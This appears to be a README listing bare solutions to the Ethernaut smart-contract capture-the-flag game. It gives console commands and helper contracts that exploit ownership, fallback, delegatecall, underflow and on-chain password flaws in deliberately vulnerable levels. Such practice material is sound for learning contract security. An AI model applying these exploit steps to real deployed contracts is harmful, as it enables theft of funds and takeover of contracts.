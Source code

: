 # Ethernaut Solutions
Solutions for Ethernaut. (At the moment, there are only the solutions without the explanations)



### Hello Ethernaut
Run on the console
```
contract.authenticate("ethernaut0")
```

### Fallback
Run on the console
```
contract.contribute({value:toWei('0.0001')})
sendTransaction({to: instance, from: player, value: toWei('0.0001')})
contract.withdraw()
```

### Fallout
Run on the console
```
contract.Fal1out()
```

### Coin Flip
deploy [coin-flip/Flipper.sol](coin-flip/Flipper.sol) and execute ```flip()``` 10 times


### Telephone
deploy [telephone/Middleware.sol](telephone/Middleware.sol) and execute ```changeOwner()```


### Token
deploy [token/Underflow.sol](token/Underflow.sol) and execute ```transfer(yourAddressHere)```
```

### Delegation
Run on the console
```
sendTransaction({to:instance, from:player, data:'0xdd365b8b'})
```

### Force
deploy [force/Forcer.sol](force/Forcer.sol), send some eth, and execute ```send()```

### Vault
Password is in Etherscan > Instance > From > Txn Hash > Input Data
Run on the console
```
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
